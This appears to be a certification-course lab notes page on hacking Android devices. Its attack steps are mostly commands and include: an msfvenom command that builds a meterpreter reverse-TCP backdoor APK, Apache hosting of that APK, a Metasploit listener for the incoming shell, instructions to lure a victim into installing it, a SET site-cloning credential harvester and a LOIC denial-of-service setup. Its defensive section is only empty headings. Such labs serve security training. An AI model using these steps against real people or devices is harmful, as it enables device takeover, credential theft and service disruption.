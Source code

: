 # Module 17 - Hacking Mobile Platforms #

## Hack Android Devices ##

### Creating Binary Payloads to Hack an Android Device ###
Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

#### msfvenom ####
In the attacker machine:

``` service postgresql start ```

``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Attacker IP> R > <Output Path>/Backdoor.apk ```

#### Creating a Directory to Share with the Victim ####
1. ``` mkdir /var/www/html/share ```
2. ``` chmod -R 755 /var/www/html/share ```
3. ``` chown -R www-data:www-data /var/www/html/share ```
4. ``` mv /root/Desktop/Backdoor.apk /var/www/html/share ``` - Moving the malicious file to the shared folder

#### Starting the Apache Server ####
``` service apache2 start ```

#### Metasploit ####
``` msfconsole ```

Steps to set up a listener:
1. ``` use exploit/multi/handler ```
2. ``` set payload android/meterpreter/reverse_tcp ```
3. ``` set LHOST <Attacker Listener IP> ```
4. ``` exploit -j -z ```

#### Luring the Victim ####
Now, the attacker should lure the victim to access: ```http://<Attacker IP>/share``` and download and execute the ```Backdoor.apk``` file.

#### Metasploit / Meterpreter ####
If Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


### Harvesting Users' Credentials ###
Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

#### Social Engineering Toolkit ####
The SET is an open-source tool that enables penetration testing via social engineering. In the attacker machine: launch the Social Engineering Toolkit.

1. Select ``` 1) Social-Engineering Attacks ```
2. Select ``` 2) Website Attack Vectors ```
3. Select ``` 3) Credential Harvester Attack Method ```
4. Select ``` 2) Site Cloner ```
5. Enter the attacker IP Address
6. Enter the URL to clone

#### Luring the Victim ####
Now, the attacker should lure the victim to access: ```http://<Attacker IP>```. The site will be cloned from the original one. Once the user enters credentials, they will be logged into SET. 


### Launch a DoS Attack ###
#### Low Orbital Cannon (LOIC) ####
It can be found at: `Module 17 Hacking Mobile Platforms\Android Hacking Tools\`. But in this lab, we'll launch it from the Android device: go to the 'Cx File Explorer' app > Click the IP from the shared computer (Ex. 10.10.10.10) > Go to the shared folder: 'CEH-Tools' > 'Module 17 Hacking Mobile Platforms' > 'Android Hacking Tools' > Install the 'LOIC' apk.

1. Type the target IP, select the TCP radio button, set the Port value to 80 and the number of Threads to 100 > 'Start'


### Exploit the Android Platform through ADB ###
#### PhoneSploit ####

- - - -

## Secure Android Devices ##

### Analyze a Malicious App ###
#### Online Android Analyzers ####

#### Quixxi Vulnerability Scanner ####


### Secure Android Devices ###
#### Malwarebytes Security ####





